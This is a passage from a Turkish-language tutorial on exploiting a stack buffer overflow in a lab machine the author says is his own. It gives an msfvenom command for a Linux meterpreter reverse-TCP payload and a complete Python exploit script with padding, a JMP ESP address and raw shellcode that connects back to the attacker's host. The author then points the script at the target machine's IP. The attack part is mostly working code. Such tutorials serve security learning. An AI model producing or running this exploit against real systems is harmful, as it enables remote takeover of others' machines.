 Artık karşıdan bi reverse shell almanın zamanı geldi.
Reverse shell'imizin kodunu, bilinen ismiyle shellcode'u burada kendimiz yazmayacağız çünkü o kendi başına bir yazı serisi isteyen bir konu.
O yüzden shellcode'umuzu msfvenom aracı ile üreteceğiz.Hem de bu bize ekstra bir çok özelliği barından meterpreter bağlantısı verecek.

Linux sistemlerde çalışacak shellcode üretimi msfvenomda şu şekilde yapılıyor.

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

Parametrelerimizi kendimize uygun tanımlayıp komutu çalıştıralım.

![enter image description here](https://i.ibb.co/ykshMgY/ov-shellcode.png)

Gördüğünüz gibi bu shellcode bizim tek satırda gönderdiğimiz"python -c" ile başlayan payload için hayli uzun.
Bu yüzden bir python script'i yazıp oradan işlerimizi halledelim.

 

    import socket
    tampon="OVERFLOW "
    tampon+="A"*35
    jmpesp="\x8d\x92\x04\x08"
    buf =  ""
    buf += "\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0"
    buf += "\x66\x89\xe1\xcd\x80\x97\x5b\x68\xc0\xa8\x02\x80\x68"
    buf += "\x02\x00\xad\x9e\x89\xe1\x6a\x66\x58\x50\x51\x57\x89"
    buf += "\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2"
    buf += "\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd"
    buf += "\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00"
    buf += "\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80"
    buf += "\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd"
    buf += "\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb"
    buf += "\x01\x00\x00\x00\xcd\x80"
    payload=tampon+jmpesp+buf
    s=socket.socket()
    s.connect(("localhost",1337))
    s.send(payload)

Aslında burada da öncekinden çok farklı bir şey yapmadık.
Sadece netcat yerine python'ın ağ üzerinden iletişim kurmaya yarayan modülü
olan socket'i kullandık ve socket modülünün kendi fonksiyonları ile payload'umuzu karşıya ilettik.
ama artık bu payload'un bize reverse shell üreteceğine inandığımız ve saldıracağımız makine de kendimizin olduğu için bu sefer payload'u kendi çalıştırdığımız programa değil de hedef makinede çalışan programa gönderelim.
O yüzden 

    s.connect(("localhost",1337))
olan satırı 

    s.connect(("192.168.2.147",1337))
    
ile değiştiriyoruz.("İlk bulduğumda makinenin ip'si 146 ile bitiyordu ancak yazıyı yazma sürem boyunca birkaç kez kapatıp açtığım için 147'li ip aldı").
